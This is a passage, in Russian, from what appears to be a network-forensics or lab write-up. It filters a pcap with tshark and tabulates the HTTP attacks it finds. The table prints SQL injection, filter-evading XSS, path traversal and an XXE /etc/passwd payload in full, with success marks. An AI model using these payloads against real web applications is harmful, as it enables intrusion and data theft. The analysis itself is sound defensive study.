 
 Для упрощения исследования данного дампа трафика, воспользуемся утилитой `tshark` и отфильтруем HTTP запросы на WEB-сервер.
 
 ```
 tshark -r ./tcpdump.pcap -Y http -T fields -e http.request.full_uri
 ```
 Далее в ходе углубленного анализа ответов сервера построена таблица, представленная ниже.

Обозначения и сокращения в таблице:
 - XSS - Cross-Site Scripting
 - XXE - eXternal Entity XML
 - LFI - Local File Inclusion
 - !?  - Ответ сервера содержит чувствительную информацию об используемых программных компонентах

```---------------------------------------------------------------------------------------------------------------------------------------------------
 | №  | attack    | attack type          | request                                                                                          | success  |
 |:--:|:---------:|:--------------------:|:------------------------------------------------------------------------------------------------:|:--------:|
 | 1  | No        | -                    | GET /test1/example2.php?name=root HTTP/1.1                                                       |    -     |
 | 2  | Yes       | SQL Injection        | GET /test1/example2.php?name=root%27%20or%20%271%27=%271 HTTP/1.1                                |   No     |
 | 3  | Yes       | SQL Injection        | GET /test1/example2.php?name=root%27/\*\*/and/\*\*/%271%27=%271 HTTP/1.1                         |   No     |
 | 4  | Yes       | SQL Injection        | GET /test1/example2.php?name=root%27/\*\*/or/\*\*/%271%27=%271 HTTP/1.1                          |   Yes    |
 | 5  | No        | -                    | GET / HTTP/1.1                                                                                   |   -      |
 | 6  | Yes       | Path Traversal       | GET /dirtrav/example1.php?file=hacker.png HTTP/1.1                                               |   No     |
 | 7  | Yes       | Path Traversal       | GET /dirtrav/example2.php?file=/var/www/files/hacker.png HTTP/1.1                                |   No     |
 | 8  | Yes       | Path Traversal       | GET /dirtrav/example3.php?file=hacker HTTP/1.1                                                   |   No     |
 | 9  | No        | -                    | GET /test2/example2.php?name=hacker HTTP/1.1                                                     |   -      |
 | 10 | Yes       | XSS                  | GET /test2/example2.php?name=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1                          |   No     |
 | 11 | Yes       | XSS                  | GET /test2/example2.php?name=%3CscriPt%3Ealert(1)%3C/script%3E HTTP/1.1                          |   No     |
 | 12 | Yes       | XSS                  | GET /test2/example2.php?name=%3CscriPt%3Ealert(1)%3C/scrIpt%3E HTTP/1.1                          |   Yes    |
 | 13 | No        | -                    | GET / HTTP/1.1                                                                                   |   -      |
 | 14 | Yes       | Path Traversal       | GET /dirtrav/example1.php?file=hacker.png HTTP/1.1                                               |   No     |
 | 15 | Yes       | Path Traversal       | GET /dirtrav/example2.php?file=/var/www/files/hacker.png HTTP/1.1                                |   No     |
 | 16 | Yes       | Path Traversal       | GET /dirtrav/example3.php?file=hacker HTTP/1.1                                                   |   No     |
 | 17 | Yes       | XXE                  | GET /test4/example1.php?xml=%3Ctest%3Ehacker%3C/test%3E HTTP/1.1                                 |   No     |
 | 18 | Yes       | XXE                  | GET /test4/example1.php?xml=%3C!DOCTYPE%20foo%20[%3C!ELEMENT%20foo%20ANY%3E%3C!                  |   !?     |
 |    |           |                      | ENTITY%20xxe%20SYSTEM%20%22file:/etc/passw%22%3E]%3E%3Cfoo%3E&xxe;%3C/foo%3E HTTP/1.1            |          |
 | 19 | No        | -                    | GET / HTTP/1.1                                                                                   |   -      |
 | 20 | Yes       | Path Traversal       | GET /dirtrav/example1.php?file=hacker.png HTTP/1.1                                               |   No     |
 | 21 | Yes       | Path Traversal       | GET /dirtrav/example2.php?file=/var/www/files/hacker.png HTTP/1.1                                |   No     |
 | 22 | Yes       | Path Traversal       | GET /dirtrav/example3.php?file=hacker HTTP/1.1                                                   |   No     |
```